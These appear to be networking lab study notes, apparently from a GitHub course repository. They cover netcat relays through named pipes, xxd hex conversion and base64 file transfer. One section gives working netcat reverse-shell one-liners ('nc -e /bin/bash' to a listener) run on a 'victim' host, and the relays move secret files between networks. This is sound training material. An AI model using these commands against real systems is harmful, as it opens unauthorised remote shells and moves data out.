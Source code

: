         **NETCAT RELAY DEMOS**
        Listener - Listener
        On Blue_Host-1 Relay:
        mknod mypipe p
        nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe

        On Internet_Host (send):
        nc 172.16.82.106 1111 < secret.txt

        On Blue_Priv_Host-1 (receive):
        nc 192.168.1.1 3333 > newsecret.txt

        **Client - Client**
        On Internet_Host (send):
        nc -lvp 1111 < secret.txt

        On Blue_Priv_Host-1 (receive):
        nc -lvp 3333 > newsecret.txt

        On Blue_Host-1 Relay:
        mknod mypipe p
        nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe

        "file" command to find file types.

        **REVERSE SHELL USING NETCAT**
        First listen for the shell on your device.
        nc -lvp 9999

        On Victim using -c :
        nc -c /bin/bash 10.10.0.40 9999

        On Victim using -e :
        nc -e /bin/bash 10.10.0.40 9999

  ## XXD EXAMPLE
        echo a string of text and use xxd to convert it to a plain hex dump with the -p switch\
        echo "Hex encoding test" | xxd -p
        48657820656e636f64696e6720746573740a

        echo hex string and use xxd to restore the data to its original format
        echo "48657820656e636f64696e6720746573740a" | xxd -r -p
        Hex encoding test

        ![image](https://github.com/robertjenkins2828/Networking/assets/163066736/ffef630c-b2fd-4c84-a72f-b264a0c24d0c)
        ![image](https://github.com/robertjenkins2828/Networking/assets/163066736/587c45aa-1fe2-4d81-a8ee-d4381c527bad)

        **TRANSFER FILE WITH BASE64**
        generate the base64 output of a file, with line wrapping removed
        base64 -w0 logoCyber.png

        TRANSFER FILE WITH BASE64

        create a new file on your machine
        nano b64image.png
